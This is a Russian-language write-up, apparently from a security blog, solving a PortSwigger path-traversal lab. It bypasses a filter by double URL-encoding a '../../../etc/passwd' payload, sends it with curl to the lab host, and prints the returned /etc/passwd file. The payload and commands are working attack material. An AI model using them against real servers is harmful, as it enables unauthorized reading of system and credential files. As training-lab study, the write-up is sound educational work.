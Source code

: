 ```yaml
---
title: "File path traversal, traversal sequences stripped with superfluous URL-decode"
date: 2025-07-03
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-superfluous-url-decode"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

Приложение блокирует передаваемые параметры со специальными символами. Перед обработкой происходит декодирование `URL` значений.

Необходимо вывести содержимое файла `/etc/passwd`.

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net
```

## Solution

Из задания понятно, что нужно смотреть загрузку фотографий, поэтому сразу беру нужный запрос:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/1.png){: height="200" .align-center}

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=58.jpg
```

Сервер фильтрует специальные символы в запросе. Перед проверкой он декодирует `URL` кодировку. Почему бы тогда не закодировать пейлоад дважды?) Для этого удобно использовать [Cyberchef](https://gchq.github.io/CyberChef/#recipe=URL_Decode(/disabled)URL_Encode(true)URL_Encode(false/breakpoint)&input=Li4vLi4vLi4vZXRjL3Bhc3N3ZA):

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/2.png){: height="200" .align-center}

Я получил следующий пейлоад:

```
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

Передам его в качестве значения в `GET`-запросе:

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

Я получил ошибку:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/3.png){: height="200" .align-center}

Содержимое можно получить с помощью `curl`:

```bash
cu63:~/ $ curl https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image\?filename\=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd                                                  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Лаба решена.
